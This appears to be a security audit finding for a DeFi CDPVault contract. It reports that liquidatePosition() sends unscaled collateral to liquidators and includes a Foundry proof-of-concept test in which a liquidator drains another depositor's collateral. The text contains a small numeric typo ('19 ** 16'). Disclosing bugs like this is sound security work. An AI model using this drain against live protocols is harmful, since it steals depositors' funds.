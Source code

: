 ## [M] `CDPVault.liquidatePosition()` does not scale `takeCollateral` with `tokenScale`; therefore, it might send the wrong amount of collateral to the liquidator when `tokenScale ! = 1 ether`

First of all, in `CDPVault`, the amount of `collateral` maintained in each position is scaled using `tokenScale`. See the code in `deposit`:

relative_path_091409:src/CDPVault.sol#L223-L233

and the function `modifyCollateralAndDebt()`:

relative_path_091409:src/CDPVault.sol#L367-L460

For example, when withdrawing collateral, it will scale it with `tokenScale` from internal amount:

```javascript
  uint256 amount = wmul(abs(deltaCollateral), tokenScale);
            token.safeTransfer(collateralizer, amount);
```

However, when sending collateral to the liquidator, it uses the internal amount without scaling by `tokenScale` in function `liquidatePosition` at L565.

```javascript
 token.safeTransfer(msg.sender, takeCollateral);
```

As a result, when `tokenScale < 10 ** 18`, the above line actually send more tokens to the liquidator than it is supposed to, a loss of funds for the protocol.

In the following POC, we show:

1. We use a collateral token that has 16 decimals, as a a result, `tokenScale = 19 ** 16`.
2. Frank deposits 1M units of collateral.
3. The test contract deposits 100 units of collateral and then borrows 10 ether of underlying tokens, with the price of collateral being 1 ether.
4. The price of the collateral drops to 0.1 ether.
5. Kathy liquidates the position of the test contract with 1 ether of underlying tokens.
6. Kathy is supposed to receive 10.52 units of collateral; however, she receives 1052 units of collateral instead due to the above bug. This amount is much greater than the collateral for the position held by the test contract.
7. The protocol loses collateral to the liquidator, in particular, the collateral that is supposed to be owned by Frank.
8. Now, when Frank tries to withdraw his collateral, he fails.

Please run `forge test --match-test testLiquidate1 -vv`:

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import "forge-std/console2.sol";
import {TestBase, ERC20PresetMinterPauser} from "../TestBase.sol";

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {IERC20Metadata} from "@openzeppelin/contracts/token/ERC20/extensions/IERC20Metadata.sol";

import {IOracle} from "../../interfaces/IOracle.sol";
import {ICDPVaultBase} from "../../interfaces/ICDPVault.sol";
import {CDPVaultConstants, CDPVaultConfig} from "../../interfaces/ICDPVault.sol";
import {IPermission} from "../../interfaces/IPermission.sol";

import {WAD, wmul, wdiv, wpow, toInt256} from "../../utils/Math.sol";
import {CDPVault, VAULT_CONFIG_ROLE} from "../../CDPVault.sol";
import {console} from "forge-std/console.sol";
import {StdCheats} from "forge-std/StdCheats.sol";

contract MockTokenScaled is ERC20PresetMinterPauser {
    uint8 private _decimals;

    constructor(string memory name, string memory symbol, uint8 decimals_) ERC20PresetMinterPauser(name, symbol) {
        _decimals = decimals_;
    }

    function decimals() public view override returns (uint8) {
        return _decimals;
    }
}
import {CDPVault, VAULT_CONFIG_ROLE} from "../../CDPVault.sol";
import {console} from "forge-std/console.sol";

contract CDPVaultWrapper is CDPVault {
    constructor(CDPVaultConstants memory constants, CDPVaultConfig memory config) CDPVault(constants, config) {}
}

contract PositionOwner {
    constructor(IPermission vault) {
        // Allow deployer to modify Position
        vault.modifyPermission(msg.sender, true);
    }
}

contract CDPVaultTest is TestBase {
    MockTokenScaled tokenScaled;

    /*//////////////////////////////////////////////////////////////
                            HELPER FUNCTIONS
    //////////////////////////////////////////////////////////////*/

    function _depositCollateral(CDPVault vault, uint256 amount) internal {
        token.mint(address(this), amount);
        (uint256 collateralBefore, , , , , ) = vault.positions(address(this));
        token.approve(address(vault), amount);
        vault.deposit(address(this), amount);
        (uint256 collateralAfter, , , , , ) = vault.positions(address(this));
        assertEq(collateralAfter, collateralBefore + amount);
    }

    function _modifyCollateralAndDebt(CDPVault vault, int256 collateral, int256 debt) internal {
        if (debt < 0) {
            mockWETH.mint(address(this), uint256(-debt));
            mockWETH.approve(address(vault), uint256(-debt));
        }

        if (collateral > 0) {
            token.mint(address(this), uint256(collateral));
            token.approve(address(vault), uint256(collateral));
        }

        (uint256 collateralBefore, uint256 debtBefore, , , , ) = vault.positions(address(this));
        uint256 virtualDebtBefore = virtualDebt(vault, address(this));
        uint256 vaultCreditBefore = credit(address(this));

        vault.modifyCollateralAndDebt(address(this), address(this), address(this), collateral, debt);
        {
            (uint256 collateralAfter, uint256 debtAfter, , , , ) = vault.positions(address(this));
            assertEq(toInt256(collateralAfter), toInt256(collateralBefore) + collateral);
            assertEq(toInt256(debtAfter), toInt256(debtBefore) + debt);
        }

        uint256 virtualDebtAfter = virtualDebt(vault, address(this));
        int256 deltaDebt = toInt256(virtualDebtAfter) - toInt256(virtualDebtBefore);
        {
            uint256 tokensAfter = credit(address(this));
            assertEq(toInt256(tokensAfter), toInt256(vaultCreditBefore) + deltaDebt);
        }

        uint256 vaultCreditAfter = credit(address(this));
        assertEq(toInt256(vaultCreditBefore + virtualDebtAfter), toInt256(vaultCreditAfter + virtualDebtBefore));
        assertEq(toInt256(vaultCreditBefore + virtualDebtAfter), toInt256(vaultCreditAfter + virtualDebtBefore));
    }

    function _updateSpot(uint256 price) internal {
        oracle.updateSpot(address(token), price);
    }

    function _collateralizationRatio(CDPVault vault) internal view returns (uint256) {
        (uint256 collateral, , , , , ) = vault.positions(address(this));
        if (collateral == 0) return type(uint256).max;
        return wdiv(wmul(collateral, vault.spotPrice()), virtualDebt(vault, address(this)));
    }

    function _createVaultWrapper(uint256 liquidationRatio) private returns (CDPVaultWrapper vault) {
        CDPVaultConstants memory constants = _getDefaultVaultConstants();
        CDPVaultConfig memory config = _getDefaultVaultConfig();
        config.liquidationRatio = uint64(liquidationRatio);

        vault = new CDPVaultWrapper(constants, config);
    }

    function _setDebtCeiling(CDPVault vault, uint256 debtCeiling) internal {
        // cdm.setParameter(address(vault), "debtCeiling", debtCeiling);
        liquidityPool.setCreditManagerDebtLimit(address(vault), debtCeiling);
    }


    function printPosition(CDPVault vault, address p, string memory name) public{
        console2.log("\n =================================================");
        console2.log("position infor for ", name);

        (uint256 collateral, // [wad]
        uint256 debt, // [wad]
        uint256 lastDebtUpdate, // [timestamp]
        uint256 cumulativeIndexLastUpdate,
        uint192 cumulativeQuotaIndexLU,
        uint128 cumulativeQuotaInterest
        ) = vault.positions(p);

        console2.log("collateral: ", collateral);
        console2.log("debt: ", debt);
        console2.log("cumulativeQuotaInterest: ", cumulativeQuotaInterest);
        console2.log("lastUpdate: ", lastDebtUpdate);

        uint256 cumulativeIndexNow = liquidityPool.baseInterestIndex();
        uint256 cumulativeQuotaIndexNow = quotaKeeper.cumulativeIndex(address(tokenScaled));
        console2.log("cumulatveIndexNow: ", cumulativeIndexNow);
        console2.log("cumulativeIndexLastUpdate:", cumulativeIndexLastUpdate);
        console2.log("cumulativeQuotaIndexNow: ", cumulativeQuotaIndexNow);
        console2.log("cumulativeQuotaIndexLU: ", cumulativeQuotaIndexLU);
        console2.log("=================================================\n ");
    }


    function printBalances(address a, string memory name) public{
        console2.log("\n =================================================");
        console2.log("Balances for ", name);
        console2.log("Collateral balance: ", token.balanceOf(a));
        console2.log("borrow token balance: ", mockWETH.balanceOf(a));
        console2.log("=================================================\n ");
    }


function testLiquidate1() public{
        address Frank = makeAddr("Frank");
        address Kathy = makeAddr("Kathy");



        tokenScaled = new MockTokenScaled("TestToken", "TST", 16);  // 16 decimals

        CDPVault vault = createCDPVault(tokenScaled, 150 ether, 0, 1.25 ether, 1.0 ether, 0.95 ether);
        createGaugeAndSetGauge(address(vault), address(tokenScaled));

        // frank does a deposit 1M units
        tokenScaled.mint(Frank, 1000000*10**16);
        vm.startPrank(Frank);
        tokenScaled.approve(address(vault), 1000000*10**16); // 100 units
        vault.deposit(Frank, 1000000*10**16);
        vm.stopPrank();

        // this test contract does a deposit 100 units
        tokenScaled.mint(address(this), 100*10**16);
        tokenScaled.approve(address(vault), 100*10**16); // 100 units
        vault.deposit(address(this), 100*10**16);

        oracle.updateSpot(address(tokenScaled), 1 ether);
        vault.borrow(address(this), address(this), 10 ether);    // 10 ether debt, 100 units of collateral


        console2.log("\n \n --------------------liquidate now -----------------");
        oracle.updateSpot(address(tokenScaled), 0.1 ether);

        mockWETH.mint(Kathy, 1 ether);
        vm.startPrank(Kathy);
        mockWETH.approve(address(vault), 1 ether);
        vault.liquidatePosition(address(this), 1 ether);
        vm.stopPrank();

        printPosition(vault, address(this), "this position");
        console2.log("done");

        vm.startPrank(Frank);
        vm.expectRevert();  // not enough collatreral to withdraw now
        vault.withdraw(Frank, 1000000*10**16);
        vm.stopPrank();
}
}
```





